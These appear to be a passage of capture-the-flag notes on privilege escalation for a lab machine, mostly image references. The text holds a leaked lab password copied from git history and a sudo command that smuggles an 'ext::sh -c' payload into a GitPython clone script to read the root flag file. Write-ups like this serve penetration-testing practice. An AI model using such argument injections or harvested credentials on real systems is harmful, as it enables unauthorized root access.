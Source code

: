 # Privilege Escalation
## Enumeration

![[/assets/images/editorial18.png]]
![[/assets/images/editorial22.png]]

```sh
1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500     commit: change(api): downgrading prod to dev
```

![[/assets/images/editorial23.png]]

```text
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

| prod | 080217_Producti0n_2023!@ |
| ---- | ------------------------ |
## LSE
![[/assets/images/editorial19.png]]

## SUID3NUM
![[/assets/images/editorial20.png]]

## Notes


## Attempts
![[/assets/images/editorial24.png]]

![[/assets/images/editorial25.png]]

### clone_prod_change.py
![[/assets/images/editorial26.png]]

![[/assets/images/editorial27.png]]

https://github.com/gitpython-developers/GitPython/issues/1515
![[/assets/images/editorial28.png]]

```sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
```

![[/assets/images/editorial29.png]]
